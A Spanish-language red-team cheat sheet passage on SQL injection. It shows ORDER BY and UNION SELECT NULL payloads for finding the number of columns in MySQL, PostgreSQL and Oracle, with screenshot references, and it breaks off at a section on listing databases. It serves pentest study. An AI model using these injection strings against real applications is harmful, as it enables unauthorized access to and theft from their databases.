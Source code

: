 ![imagen error](/images/red_team/web/20241030122352.png)
![imagen error](/images/red_team/web/20241030122521.png)
DETERMINAMOS EL TAMAÑO DE LA TABLA

### MYSQL

#### ORDER BY

##### MYSQL-PostgreSQL ORACLE

```python
CODE_VULNERABLE' ORDER BY 1 -- -

CODE_VULNERABLE' ORDER BY 2 -- -

CODE_VULNERABLE' ORDER BY 3 -- -
```

EJEMPLO:SI FUNCIONA EN 1 Y 2 , PERO FALLA EN 3 , ESPORQUE NO EXISTE LA 3 COLUMNAY SOLO EXISTEN 2 COLUMNAS
![imagen error](/images/red_team/web/20241030123658.png)

CORROBORAMOS ESTO CON EL UNION

#### UNION

##### MYSQL-PostgreSQL1

```python
CODE_VULNERABLE' UNION SELECT NULL -- -

CODE_VULNERABLE' UNION SELECT NULL,NULL -- -

CODE_VULNERABLE' UNION SELECT NULL,NULL,NULL -- -
```

##### ORACLE

```python
CODE_VULNERABLE' UNION SELECT NULL FROM DUAL -- -

CODE_VULNERABLE' UNION SELECT NULL,NULL FROM DUAL -- -

CODE_VULNERABLE' UNION SELECT NULL,NULL,NULL FROM DUAL -- -
```

donde si colocamos  "NULL,NULL,NULL" daría error
![imagen error](/images/red_team/web/20241030123612.png)

## OBTENER LAS BASE DE DATOS DISPONIBLES

### MYSQL-PostgreSQL2
